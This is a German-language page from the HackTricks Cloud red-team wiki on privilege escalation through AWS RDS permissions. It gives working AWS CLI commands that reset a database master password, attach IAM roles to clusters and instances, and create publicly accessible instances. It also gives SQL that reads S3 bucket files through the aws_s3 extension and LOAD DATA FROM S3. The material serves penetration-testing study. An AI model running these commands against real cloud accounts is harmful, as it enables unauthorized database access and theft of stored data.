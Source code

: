 # AWS - RDS Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## RDS - Relational Database Service

Für weitere Informationen über RDS siehe:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Mit dieser Berechtigung kann ein Angreifer **das Passwort des Master-Benutzers ändern** und sich in die Datenbank einloggen:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Sie müssen in der Lage sein, **Kontakt zur Datenbank** aufzunehmen (sie sind normalerweise nur von innerhalb von Netzwerken zugänglich).
{% endhint %}

**Potentielle Auswirkung:** Finden Sie sensible Informationen in den Datenbanken.

### rds-db:connect

Laut den [**Dokumentationen**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) könnte ein Benutzer mit dieser Berechtigung eine Verbindung zur DB-Instanz herstellen.

### Missbrauch von RDS Role IAM-Berechtigungen

#### Postgresql (Aurora)

{% hint style="success" %}
Wenn Sie **`SELECT datname FROM pg_database;`** ausführen und eine Datenbank namens **`rdsadmin`** finden, wissen Sie, dass Sie sich in einer **AWS postgresql-Datenbank** befinden.
{% endhint %}

Zuerst können Sie überprüfen, ob diese Datenbank verwendet wurde, um auf einen anderen AWS-Dienst zuzugreifen. Sie könnten dies überprüfen, indem Sie die installierten Erweiterungen ansehen:
```sql
SELECT * FROM pg_extension;
```
Wenn du etwas wie **`aws_s3`** findest, kannst du davon ausgehen, dass diese Datenbank **irgendeine Art von Zugriff auf S3** hat (es gibt auch andere Erweiterungen wie **`aws_ml`** und **`aws_lambda`**).

Außerdem, wenn du die Berechtigungen hast, **`aws rds describe-db-clusters`** auszuführen, kannst du dort sehen, ob der **Cluster eine IAM-Rolle angehängt hat** im Feld **`AssociatedRoles`**. Falls ja, kannst du davon ausgehen, dass die Datenbank **vorbereitet wurde, um auf andere AWS-Dienste zuzugreifen**. Basierend auf dem **Namen der Rolle** (oder wenn du die **Berechtigungen** der Rolle erhalten kannst) könntest du **vermuten**, welchen zusätzlichen Zugriff die Datenbank hat.

Um nun **eine Datei in einem Bucket zu lesen**, musst du den vollständigen Pfad kennen. Du kannst ihn lesen mit:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Wenn Sie **rohe AWS-Anmeldeinformationen** hätten, könnten Sie diese auch verwenden, um auf S3-Daten zuzugreifen mit:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **muss keine Parametergruppenvariable ändern**, um auf S3 zugreifen zu können.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Innerhalb eines mysql, wenn Sie die Abfrage **`SELECT User, Host FROM mysql.user;`** ausführen und es einen Benutzer namens **`rdsadmin`** gibt, können Sie davon ausgehen, dass Sie sich in einer **AWS RDS mysql db** befinden.
{% endhint %}

Innerhalb des mysql führen Sie **`show variables;`** aus und wenn die Variablen wie **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** Werte haben, können Sie davon ausgehen, dass die Datenbank für den Zugriff auf S3-Daten vorbereitet ist.

Auch wenn Sie Berechtigungen haben, **`aws rds describe-db-clusters`** auszuführen, können Sie überprüfen, ob der Cluster eine **zugeordnete Rolle** hat, was normalerweise den Zugriff auf AWS-Dienste bedeutet.

Um nun **eine Datei in einem Bucket zu lesen**, müssen Sie den vollständigen Pfad kennen. Sie können ihn lesen mit:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Ein Angreifer mit den Berechtigungen `rds:AddRoleToDBCluster` und `iam:PassRole` kann **eine bestimmte Rolle zu einer bestehenden RDS-Instanz hinzufügen**. Dies könnte dem Angreifer ermöglichen, **auf sensible Daten zuzugreifen** oder die Daten innerhalb der Instanz zu ändern.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potentieller Einfluss**: Zugriff auf sensible Daten oder unautorisierte Änderungen an den Daten in der RDS-Instanz.\
Beachten Sie, dass einige DBs zusätzliche Konfigurationen erfordern, wie z.B. Mysql, das die Angabe der Rollen-ARN in den Parametergruppen benötigt.

### `rds:CreateDBInstance`

Nur mit dieser Berechtigung könnte ein Angreifer eine **neue Instanz innerhalb eines bereits existierenden Clusters** erstellen, der eine **IAM-Rolle** angehängt hat. Er wird nicht in der Lage sein, das Master-Benutzerpasswort zu ändern, aber er könnte in der Lage sein, die neue Datenbankinstanz dem Internet auszusetzen:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Testen
{% endhint %}

Ein Angreifer mit den Berechtigungen `rds:CreateDBInstance` und `iam:PassRole` kann **eine neue RDS-Instanz mit einer angegebenen Rolle erstellen**. Der Angreifer kann dann möglicherweise **auf sensible Daten zugreifen** oder die Daten innerhalb der Instanz ändern.

{% hint style="warning" %}
Einige Anforderungen an das anzuhängende Rollen-/Instanzprofil (von [**hier**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Das Profil muss in Ihrem Konto existieren.
* Das Profil muss eine IAM-Rolle haben, die Amazon EC2-Berechtigungen zum Übernehmen hat.
* Der Name des Instanzprofils und der zugehörige IAM-Rollenname müssen mit dem Präfix `AWSRDSCustom` beginnen.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Ein Angreifer mit den Berechtigungen `rds:AddRoleToDBInstance` und `iam:PassRole` kann **eine angegebene Rolle zu einer bestehenden RDS-Instanz hinzufügen**. Dies könnte dem Angreifer ermöglichen, **auf sensible Daten zuzugreifen** oder die Daten innerhalb der Instanz zu ändern.

{% hint style="warning" %}
Die DB-Instanz muss sich außerhalb eines Clusters befinden
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unautorisierte Änderungen an den Daten in der RDS-Instanz.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
